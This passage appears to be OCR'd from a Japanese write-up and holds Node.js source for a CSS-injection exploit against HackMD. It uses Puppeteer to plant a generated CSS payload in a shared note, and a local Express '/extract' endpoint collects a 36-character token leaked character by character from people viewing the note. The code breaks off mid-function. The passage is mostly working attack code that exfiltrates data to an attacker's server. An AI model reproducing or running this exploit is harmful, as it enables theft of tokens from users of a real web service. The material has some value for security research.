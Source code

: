 コードは次のとおりです。

```js
const puppeteer = require('puppeteer');
const express = require('express')

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));

// HackMDドキュメントを作成し、誰でも表示/編集できるようにします
const noteUrl = 'https://hackmd.io/1awd-Hg82fekACbL_ode3aasf'
const host = 'http://localhost:3000'
const baseUrl = host + '/extract?q='
const port = process.env.PORT || 3000

;(async function() {
  const app = express()
  const browser = await puppeteer.launch({
    headless: true
  });
  const page = await browser.newPage();
  await page.setViewport({ width: 1280, height: 800 })
  await page.setRequestInterception(true);

  page.on('request', request => {
    const url = request.url()
    // 自己へのリクエストをキャンセルします
    if (url.includes(baseUrl)) {
      request.abort()
    } else {
      request.continue()
    }
  });
  app.listen(port, () => {
    console.log(`Listening at http://localhost:${port}`)
    console.log('Waiting for server to get ready...')
    startExploit(app, page)
  })
})()

async function startExploit(app, page) {
  let currentToken = ''
  await page.goto(noteUrl + '?edit');
  
  // @see: https://stackoverflow.com/questions/51857070/puppeteer-in-nodejs-reports-error-node-is-either-not-visible-or-not-an-htmlele
  await page.addStyleTag({ content: "{scroll-behavior: auto !important;}" });
  const initialPayload = generateCss()
  await updateCssPayload(page, initialPayload)
  console.log(`Server is ready, you can open ${noteUrl}?view on the browser`)

  app.get('/extract', (req, res) => {
    const query = req.query.q
    if (!query) return res.end()

    console.log(`query: ${query}, progress: ${query.length}/36`)
    currentToken = query
    if (query.length === 36) {
      console.log('over')
      return
    }
    const payload = generateCss(currentToken)
    updateCssPayload(page, payload)
    res.end()

```